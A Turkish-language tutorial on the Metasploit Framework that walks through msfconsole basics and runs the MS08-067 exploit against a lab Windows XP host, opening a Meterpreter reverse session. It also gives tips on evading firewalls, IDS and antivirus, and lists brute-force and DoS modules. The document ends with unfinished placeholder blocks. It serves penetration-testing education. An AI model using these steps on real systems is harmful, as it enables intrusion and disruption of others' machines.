


### Metasploit Framework kullanımı

* Metasploit Projesi, güvenlik açıkları hakkında bilgi sağlayan, sızma testleri ve IDS imza gelişmesinde yardımcı olan bir bilgisayar güvenlik projesidir.
* Oluşturduğu yapı ile güvenlik denetçilerine, IDS imza geliştirme ve istismar araştırmaları yapan uzmanlara, hackerlara faydalı bilgiler vermekte ve exploit geliştiricileri için bir çatı oluşturmaktadır.
* Metasploit bir toplum projesi Metasploit LLC tarafından
yönetilmekteydi.
* Rapid7 firmasına satıldıkdan sonra Pro ve Community surümleri ile devam etmektedir.
* Metasploit Framework (MSF), Windows işletim sistemleri de dahil olmak üzere, geniş bir yelpazede çalışır.
* Windows 2000/XP/2003, Linux, OpenBSD, FreeBSD ve Mac OS X işletim sistemlerini destekler.
* Metasploit hızla gelişen bir araçtır.
* Hergün, her saat yeni güvenlik açıkları keşfedilmekte ve
bunları sömüren kodlar yazılmaktadır.
* Yeni payload ,encoder, exploit, ve NOP hazırlandığında metasploiti update ederek kullanabilirsiniz.
* http://tr.wikipedia.org/wiki/Metasploit
* http://www.metasploit.com/

##### Metasploit başlatma

Şimdi ise Metasploit başlatalım ve ilk saldırımızı yapalım. Ama ilk önce yaptığımız hareketlerin Metasploit tarafından izlenebilmesi için PostgreSQL veritabanını çalıştıralım.

```ShellSession
root@kali:~# service postgresql start
```

Bu aşamadan sonra Metasploit servislerini çalıştırmak için hazır bulunmaktayız. Aşağıdaki komut verilerimizi tutmak için veritabanda _ms3_ adlı kullanıcıyı ekleyecek ve RPC adlı uzaktan prosedürü başlatacak.

```ShellSession
root@kali:~# service metasploit start
```

Metasploit birkaç çeşit arayüzüne sahiptir. Biz şimdilik __Msfconsole__ ile devam edeceğiz.

```ShellSession
root@kali:~# msfconsole
```

Birkaç dakika bekletebilir, çünkü modüller yüklenecek. Bittikten sonra aşağıdaki gibi güzel bir ASCII çalışması çıkacak, ve `msf > prompt

```ShellSession
     ,           , 
    /             \ 
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||

Large pentest? List, sort, group, tag and search your hosts and services

in Metasploit Pro -- type 'go_pro' to launch it now.
       =[ metasploit v4.8.2-2014010101 [core:4.8 api:1.0]
+ -- --=[ 1246 exploits - 678 auxiliary - 198 post
+ -- --=[ 324 payloads - 32 encoders - 8 nops

msf >
```

Dikkat ettiyseniz, Metasploit'e ait 1.246 exploit, 678 auxiliary vb var. Bu zamanla daha da artacak. Yeni exploit'ler gün geçtikçe ekleniyor, çünkü bu bir toplumsal bir projedir. 

Bazen komutlarla kafanız karıştığında `help [komut_ismi]` girerek o komut hakkında bilgi alabilirsiniz

```ShellSession
msf > help route
Usage: route [add/remove/get/flush/print] subnet netmask [comm/sid]

Route traffic destined to a given subnet through a supplied session.
The default comm is Local...
```

##### Metasploit Modüllerini bulma

Modül arama işlerinde ilk dostunuz tabii ki de Google olacaktır, ama Metasploit'in de kendine ait modül veritabanı vardır. http://www.rapid7.com/db/modules/. Arama yaparken uzun uzun Common Vulnerabilities  and Exposures olarak veya CVE, MS08-067 gibi kısa kodlarla da arama yapılabilir.



MS08-067 modülü için arama yaptık. Aşağıda ise tam ismi gösterilmiştir. Bu modül `exploit/windows/smb/ms08_067_netapi` dizininde bulunmaktadır.



Ama istersek Metasploit'in dahili arama motorundan da faydalanabiliriz. 

```ShellSession
msf > search ms08-067

Matching Modules
================
Name            Disclosure       Date Rank Description
----            --------------- ---- -----------
.../ms08_067_netapi 2008-10-28 00:00:00 UTC great Microsoft Server
```

Modül hakkında bilgi almak için `info [modul_ismi]`

```ShellSession
msf > info exploit/windows/smb/ms08_067_netapi
Name: Microsoft Server Service Relative Path Stack Corruption Module: exploit/windows/smb/ms08_067_netapi
Version: 0
Platform: Windows
Privileged: Yes
License: Metasploit Framework License (BSD)
Rank: Great
```

Aradığımız modülün bu olduğna emin olduktan sonra `use [modul_ismi]` ile kullanmaya başlayabiliriz. 

```ShellSession
msf > use windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) >
```

Kullanacağımız modülü seçtikten sonra komutu çalıştırabilmek için lazım olan bilgiyi görmek için `show options

```ShellSession
msf exploit(ms08_067_netapi) > show options
Module options (exploit/windows/smb/ms08_067_netapi):
Name Current Setting Required Description 
---- --------------- -------- -----------
RHOST                yes The target address
RPORT   445          yes Set the SMB service port
SMBPIPE BROWSER      yes The pipe name to use (BROWSER, SRVSVC)

Exploit target:
    Id  Name
    --  ----
    0   Automatic Targeting
```

__Required__ sütününda __'yes'__ ile belirtilen seçeneklerin mutlaka belirtilmesi gerekir.
Bu ayarlar şöyle yapılı;
* __RHOST =__ hostname veya ip adresi yazılabilir
* __LHOST =__ saldırıyı yapan sistemin ip adresi

Firewall, IDS/IPS'leri atlatmak için 443. portu kullanmanız önerilir.

Modülün hedefindeki sistemleri görüntülemek için `show targets`

```ShellSession
msf exploit(ms08_067_netapi) > show targets 

Exploit targets:

   Id  Name
   --  ----
   0   Automatic Targeting
   1   Windows 2000 Universal
   2   Windows XP SP0/SP1 Universal
   3   Windows XP SP2 English (AlwaysOn NX)
   4   Windows XP SP2 English (NX)
   5   Windows XP SP3 English (AlwaysOn NX)
   --snip--
   67 Windows 2003 SP2 Spanish (NX)
```

##### Payloads

* Exploit sonrası çalışıp yetkisiz işlevi gerçekleştirecek içerik.
* Metasploit Frameworkde kullanılan üst düzey farklı işlevselliğe sahip payloadlar bulunmaktadır. Bunlardan bazıları;
* Meterpreter
* DLL Injection
* Binary Upload
* PassiveX
* Download and Exec 
* Adduser

`show payloads` komutu ile mevcut payload listesi sıralanabilir. 324 tane var, tabii ki zamanla bu sayı değişecek.

```ShellSession
msf exploit(ms08_067_netapi) > show payloads
```

şimdi is testimizi yapalım. 

```ShellSession
msf exploit(ms08_067_netapi) > set RHOST 192.168.20.10
msf exploit(ms08_067_netapi) > exploit

[*] Started reverse handler on 192.168.20.9:4444
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 1 opened (192.168.20.9:4444 -> 192.168.20.10:1334) at
2015-08-31 07:37:05 -0400

meterpreter >
```

Gördüğünüz gibi, Meterpreter (meta-interpreter) oturumu ile bitiriyoruz. Metasploit'in eşsiz payload'ı. Command shell yaptığını hatda daha fazlasını yapabilmektedir.

Şimdilik oturumu kapatıyoruz

```ShellSession
meterpreter > exit
[*] Shutting down Meterpreter...
[*] Meterpreter session 1 closed.  Reason: User exit
msf  exploit(ms08_067_netapi) >
```


Encoder Nedir ?
Metasploit Encoder, istenilen payloadın içeriğini değiştirerek Saldırı Tespit ve Engelleme
Sistemleri (IDS/IPS), Güvenlik Duvarları (Firewall) ve Antivirüsler tarafından tanınmasını engeller/zorlaştırır.
• Metasploit Frameworkde 27+ encoder bulunuyor.

Nop Nedir ?
“Not Operation” , bellek yeri öğrenme amaçlı bellek dolduran bitler.
Genellikle saldırı tespit ve engelleme sistemlerini yanıltmak için kullanılır.

Auxiliary Nedir?
Modüller için geliştirilmiş ek programcıklar, yardımcı araçlardır.
• Exploit öncesi bilgi toplamak, exploit sonrası hedef sistemde ilerlemek için kullanılır.
• Metasploit’de en fazla kullanılan bileşenlerden biri Aux modülleridir.

Metasploit Araçlarını Anlamak
Metasploit , birden fazla araç ile arayüz kullanımı sağlar.Bu
araçlar farklı şartlar ve durumlarda yüksek derecede
esneklik sağlar ;
• Tek bir kullanıcı, tek bir hedef sömürme
• Bir kullanıcının bir oturum sırasında birden çok hedefi,
• Toplu iş modunda yönetebilmesi
• Aynı anda birden fazla oturum açma
• Payload oturumlarını askıya alma ve yenileme
• Başka kullanıcılar ile Payload oturumlarını paylaşma
• Güvenlik denetimi yapan grubun aynı ağda veya farklı ağlarda iş birliği

Msfgui
Metasploit 3.x ile birlikte gelen arayüzdür.Msfgui ile birlikte exploitler , payloadlar, auxiliaryler kullanılabilir.
• MsfguibaşlatmakiçinWindowssistemlerdePrograms| Metasploit 3 | Metasploit 3 GUI bağlantısı izlenerek erişim kurulabilir.
• Unixtürevisistemlerdemsfgui’yeerişimiçinmetasploit framework’un kurulu olduğu dizine gidilerek “msfgui” komutu ile metasploit arayüzü başlatılabilir ve “-h” parametresi ile seçenekler listelenebilir.

Msfconsole
Metasploitkomutsatırıaracıdır.Unixsistemlerde
metasploit dizinine geçilerek “msfconsole” komutu yazılarak
başlatılır.
• Windowssistemlerdeisewebarayüzünden
“Console” seçilerek erişim kurulur.
• Msfconsole ile payloadlar, exploitler, encoderlar, NOP lar ve auxiliary modulleri kullanılabilir.
• Metasploitkomutsatırı(msfconsole)açılışındametasploit logosu gelir.

msfconsole, farklı türlerde eğlenceli bannerlara sahiptir.”banner” komutu ile diğer bannerler görüntülenebilir

Yardım seçeneklerinin görüntülenmesi (help)
• Bu temel komutların açıklamalarına bir göz atalım.
• En çok kullanılan temel komutlar, ilerleyen konularda uygulamalı olarak yer almaktadır.

Msfconsole | Temel Komutlar

Temel Komutlar ============== Komut Açıklama ------- -----------
? Yardım menüsü
backMevcut seçenekten bir adım geriye döner banner Metasploit açılış bannerlarını gösterir cdDizin atlamak için kullanılır
color Renk seçeneklerini ayarlar
connect Uzak bir sunucuya bağlantı kurar exit Konsoldan çıkışı sağlar
helpYardım menüsü
info Bir veya daha fazla modul hakkında bilgi verir

Komut Açıklama
------- -----------
irb İrb scripting modunu getirir
Jobs Yapılan işleri gösterir ve düzenler
kill alışan bir görevi öldürür.
Load Framework için eklenti yükler
Loadpath Belirtilen yoldan istenilen modulu/exploiti yükler makerc Başlangıçtan itibaren kullanılan komutları bir dosyaya yazar
quit Konsoldan çıkışı sağlar
route Oturumun trafik rotasını belirler
Save Etkin veriyi kayıteder, depolar

Komut Açıklama
------- -----------
Set Ayarların konfigure edilmesinde kullanılan atama komutu
setg Genel bir değer, değişken atar
show Belirtilen modülü veya tüm modülleri listeler
sleepVerilen zaman içinde uyku moduna geç, birşey yapma unload Framework için mevcut eklentiyi kaldırır
unset Atanan değeri kaldırır
unsetg Yapılan genel bir değeri, değişkeni kaldırır
use Modülü seçer
versionKonsol uygulamasının versiyonunu gösterir
search Modül ismi veya açıklamalarda arama yapar sessions Aktif oturumları gösterir ve oturum bilgisi verir

Aux Modülleri
Metasploit yardımcı modülleri

Bilgi Toplama Amaçlı Aux Modülleri
örnek Aux modülleri
– use auxiliary/scanner/ftp/ftp_login
– use auxiliary/scanner/http/brute_dirs
– use auxiliary/scanner/http/dir_scanner
– use auxiliary/scanner/http/jboss_vulnscan – use auxiliary/scanner/http/open_proxy
– use auxiliary/scanner/http/tomcat_enum

Msfconsole | Auxiliary | Port Scanning
Port tarama için arka planda nmap kullanır. Port tarama araçlarını görüntülemek için portscan araması yapılabilir.

Msfconsole | Auxiliary | Brute Force
Metasploit, exploit öncesi ve sonrası parola deneme saldırıları için bir çok protokolü ve uygulamayı destekleyen yardımcı araçlar barındırmaktadır.

Metasploit Aux DoS Modülleri
• Metasploit kullanarak DoS saldırısı gerçekleştirme/deneme çalışmaları
• örnek Aux modülleri
– use auxiliary/dos/tcp/synflood
– use auxiliary/dos/wifi/ssidlist_beacon – use auxiliary/dos/wifi/fakeap


```ShellSession
a
```

```ShellSession
a
```

```ShellSession
a
```


